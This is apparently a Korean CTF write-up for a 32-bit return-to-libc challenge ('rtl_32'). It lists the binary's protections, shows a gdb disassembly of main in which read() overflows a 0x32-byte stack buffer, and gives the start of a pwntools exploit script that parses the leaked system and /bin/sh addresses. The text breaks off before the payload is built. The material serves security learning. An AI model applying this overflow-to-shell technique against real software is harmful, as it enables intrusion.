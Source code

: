 1. 32비트 아키택처임 
2. dynamic link로 되어 있음
3. 리틀엔디안
4. canary 없음
5. ASLR 활성화
6. NX 활성화 - 스택, 힙 등에서 코드 실행 불가하므로 RTL, ROP 관련일 확률이 높음
7. PIE 비활성화 - 전역변수 주소는 고정 ->binsh 문자열 사용 가능

동적 링킹되어 있지만 문제에서 사실상 binsh, system의 주소를 줬기 때문에 base 주소 같은 건 구할 필요가 없음

한편 이 문제에서 특이한 점이 있는데, 배열을 할당할 때 대부분 아키텍처에 따라 여유 있게 4, 8 의 배수 등으로 잡는데 이문제 에서도 32비트이므로 4의 배수로 잡음
그러나 시작 주소를 정확히 50 바이트만 할당하게 만듬
결론적으로 보통 스택 정렬을 고려하여 추가적인 공간을 할당하지만 이건 항상 필수적인 것은 아님
```sh
gef➤  disas main
Dump of assembler code for function main:
   0x08049196 <+0>:	push   ebp
   0x08049197 <+1>:	mov    ebp,esp
   0x08049199 <+3>:	sub    esp,0x34
   0x0804919c <+6>:	push   0x8049070
   0x080491a1 <+11>:	push   0x804a008
   0x080491a6 <+16>:	call   0x8049050 <printf@plt>
   0x080491ab <+21>:	add    esp,0x8
   0x080491ae <+24>:	push   0x804c01c
   0x080491b3 <+29>:	push   0x804a019
   0x080491b8 <+34>:	call   0x8049050 <printf@plt>
   0x080491bd <+39>:	add    esp,0x8
   0x080491c0 <+42>:	push   0x804a029
   0x080491c5 <+47>:	call   0x8049060 <puts@plt>
   0x080491ca <+52>:	add    esp,0x4
   0x080491cd <+55>:	push   0xc8
   0x080491d2 <+60>:	lea    eax,[ebp-0x32]
   0x080491d5 <+63>:	push   eax
   0x080491d6 <+64>:	push   0x0
   0x080491d8 <+66>:	call   0x8049040 <read@plt>
=> 0x080491dd <+71>:	add    esp,0xc
   0x080491e0 <+74>:	mov    eax,0x0
   0x080491e5 <+79>:	leave  
   0x080491e6 <+80>:	ret    
End of assembler dump.
gef➤  

```

- exploit
32bit에서는 스택으로 인자를 전달해야 하므로 아래와 같이 payload를 작성할 수 있음
여기서 2번째 sfp입력은 사실 ret를 위한 부분
```python
from pwn import *

#p=process("./rtl_32")
p=gdb.debug("./rtl_32")
context.log_level='debug'

system_addr=b''
binsh_addr=b''
payload=b''

bufsize=0x32
sfpsize=0x4

p.recvuntil("system addr: 0x")
system_addr=p32(int(p.recv(7),16))

p.recvuntil("binsh addr: 0x")
```